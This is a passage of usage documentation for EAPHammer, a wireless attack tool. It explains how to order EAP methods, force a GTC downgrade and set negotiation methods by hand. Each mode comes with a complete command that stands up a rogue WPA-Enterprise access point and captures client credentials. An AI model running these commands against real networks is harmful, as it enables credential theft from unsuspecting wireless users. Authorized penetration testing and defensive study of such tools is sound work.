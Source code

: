 	# Phase 2 (inner authentication)
	GTC,TTLS-PAP,MD5,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,TTLS-MSCHAPV2,TTLS

Keep in mind that using this option may lead to long EAP negotiation times.

## Speed optimized approach (strongest to weakest)

In this mode, EAPHammer proposes the EAP methods that are most likely to succeed first:

```bash
./eaphammer --interface wlan0 \
	--negotiate speed \
	--auth wpa-eap \
	--essid example \
	--creds
```

This will instruct EAPHammer to suggest the following sequences of EAP methods during EAP negotiation:

	# Phase 1 (outer authentication)
	PEAP,TTLS,TLS,FAST

	# Phase 2 (inner authentication)
	MSCHAPV2,TTLS-MSCHAPV2,TTLS,TTLS-CHAP,GTC,TTLS-PAP,TTLS-MSCHAP,MD5

Use this mode if you have trouble getting clients to finish the EAP authentication process using the default mode.

## Explicit GTC downgrade

To execute [@W00Tock](https://twitter.com/W00Tock)'s highly efficient GTC downgrade implementation, use the `--negotiate gtc-downgrade` flag:

```bash
./eaphammer --interface wlan0 \
	--negotiate gtc-downgrade \
	--auth wpa-eap \
	--essid example \
	--creds
```

## Manual command line configuration

To manually control which EAP methods are used by EAPHammer, as well as the order in which they are suggested to the client, use the `--negotiate manual` flag in conjuction with the `--phase-2-methods` and `--phase-1-methods` flags:

```bash
./eaphammer --interface wlan0 \
	--negotiate manual \
	--phase-1-methods PEAP,TTLS \
	--phase-2-methods MSCHAPV2,GTC,TTLS-MSCHAP \
	--auth wpa-eap \
	--essid example \
	--creds
```
